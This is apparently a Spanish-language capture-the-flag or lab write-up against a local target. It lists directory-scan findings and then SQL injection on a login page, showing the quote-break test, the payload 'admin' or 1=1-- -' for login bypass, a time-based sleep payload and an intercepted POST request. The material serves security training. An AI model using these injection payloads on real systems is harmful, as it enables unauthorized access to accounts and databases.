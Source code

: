 - **Hallazgos**:
```bash
/index.html           (Status: 200) [Size: 19091]
/img                  (Status: 301) [Size: 320] [--> http://172.17.0.2/Certificacion/img/]
/contact.html         (Status: 200) [Size: 8747]
/about.html           (Status: 200) [Size: 17222]
/login.php            (Status: 200) [Size: 6928]
/mail                 (Status: 301) [Size: 321] [--> http://172.17.0.2/Certificacion/mail/]
/css                  (Status: 301) [Size: 320] [--> http://172.17.0.2/Certificacion/css/]
/virus.php            (Status: 200) [Size: 16483]
/lib                  (Status: 301) [Size: 320] [--> http://172.17.0.2/Certificacion/lib/]
/js                   (Status: 301) [Size: 319] [--> http://172.17.0.2/Certificacion/js/]
/seguridad.php        (Status: 200) [Size: 10366]
/registro.php         (Status: 200) [Size: 7273]
/curso.php            (Status: 200) [Size: 18296]
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Auditando el panel de login vemos que logramos corrompeer la query en la siguiente ruta, Asi que intentaremos realizar inyecciones **SQL**
```bash
http://172.17.0.2/Certificacion/login.php
```

Logramos romper la consulta sql colocando comilla simple
```bash
admin'
```

Ganamos acceso inyectando esta consulta **sql**
```bash
admin' or 1=1-- -
```
### Ejecucion del Ataque
El objetivo es obtener informacion de la base de datos:
```bash
# Comandos para explotación
admin' or sleep(10)-- -
```

Ahora lo que aremos es intercpetar la peticion para aplicar las inyecciones, Asi que lanzamos **burpsuite**
```bash
burpsuite &>/dev/null & disown
```

Una ves interceptada la peticion tenemos lo siguiente:
```bash
POST /Certificacion/login.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://172.17.0.2
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://172.17.0.2/Certificacion/login.php
Cookie: PHPSESSID=mgok7eq8hsabfr026blqq8aao9
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
